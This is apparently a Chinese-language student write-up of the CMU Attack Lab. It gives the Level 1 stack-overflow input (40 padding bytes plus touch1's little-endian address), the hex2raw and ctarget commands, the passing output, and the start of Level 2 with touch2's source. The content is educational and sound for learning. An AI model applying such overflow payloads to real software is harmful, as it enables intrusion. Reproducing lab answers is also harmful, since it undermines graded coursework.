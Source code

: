 注意到分配了0x28=40个字节大小的空间，因此我们只需要先填充40字节的无效字节，再将代码注入到后几个字节覆盖掉栈帧中压入的test函数的地址即可。

同时找到函数`touch1()`的入口地址：0x00000000004017c0

依据小端法，我们在最后填入c0 17 40。因此我们可以输入：

```markdown
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
c0 17 40 00
```

我们将其存入一个txt文件中，利用**HEX2RAW**转换后输入：

```bash
./hex2raw < level1.txt > ans1.txt
./ctarget -i ans1.txt -q
```

通过测试：

```bash
Cookie: 0x59b997fa
Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40
```

### Level 2

在`ctarget`中，有一个`touch2()`函数：

```c
void touch2(unsigned val)
{
    vlevel = 2;
    if (val == cookie)
    {
        printf("Touch2!:You called touch2(0x%.8x)\n", val);
        validate(2);
    }
    else 
    {
    	printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
```
